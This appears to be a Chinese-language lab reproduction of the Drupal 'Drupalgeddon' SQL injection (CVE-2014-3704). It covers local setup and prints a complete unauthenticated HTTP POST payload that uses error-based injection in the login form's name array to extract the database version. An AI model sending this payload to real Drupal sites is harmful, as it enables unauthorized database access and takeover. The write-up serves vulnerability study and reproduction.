 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

> 漏洞说明

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。



> 前提条件

版本：7.0 < Drupal < 7.32 



> 利用工具



> 漏洞复现

启动环境，访问http://192.168.40.77:8080/可看到Drupal的安装页面，使用默认配置安装即可。

![image-20230101204315507](../img/Drupal_CVE-2014-3704/image-20230101204315507.png)

其中，Mysql数据库名填写drupal，数据库用户名、密码为root，地址为mysql

![image-20230101204358748](../img/Drupal_CVE-2014-3704/image-20230101204358748.png)

安装完成后访问http://192.168.40.77:8080/如下

![image-20230101204612857](../img/Drupal_CVE-2014-3704/image-20230101204612857.png)

该漏洞无需登录，直接构造url

```http
POST http://192.168.40.77:8080/?q=node&destination=node HTTP/1.1
Host: 192.168.40.77:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,version()),0)%23]=bob&name[0]=a

```

成功注出数据库版本

![image-20230101205000339](../img/Drupal_CVE-2014-3704/image-20230101205000339.png)